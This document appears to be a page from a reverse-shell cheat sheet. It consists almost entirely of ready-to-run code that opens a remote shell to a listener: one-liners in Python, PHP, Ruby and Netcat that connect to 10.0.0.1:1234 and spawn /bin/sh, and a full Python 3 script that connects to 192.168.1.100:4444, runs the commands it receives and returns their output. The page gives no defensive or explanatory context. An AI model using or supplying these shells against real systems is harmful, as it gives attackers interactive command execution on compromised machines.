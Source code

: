 ```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python3

```
#!/usr/bin/python

import os
import socket
import subprocess

HOST = '192.168.1.100' # The ip of the listener.
PORT = 4444 # The same port as listener.

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT)) # Connect to listener.
s.send(str.encode("[*] Connection Established!")) # Send connection confirmation.

while 1: # Start loop.
    data = s.recv(1024).decode("UTF-8") # Recieve shell command.
    if data == "quit": 
        break # If it's quit, then break out and close socket.
    if data[:2] == "cd":
        os.chdir(data[3:]) # If it's cd, change directory.
    # Run shell command.
    if len(data) > 0:
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
        stdout_value = proc.stdout.read() + proc.stderr.read() # Read output.
        output_str = str(stdout_value, "UTF-8") # Format output.
        currentWD = os.getcwd() + "> " # Get current working directory.
        s.send(str.encode(currentWD + output_str)) # Send output to listener.
    
s.close() # Close socket.
```

PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```
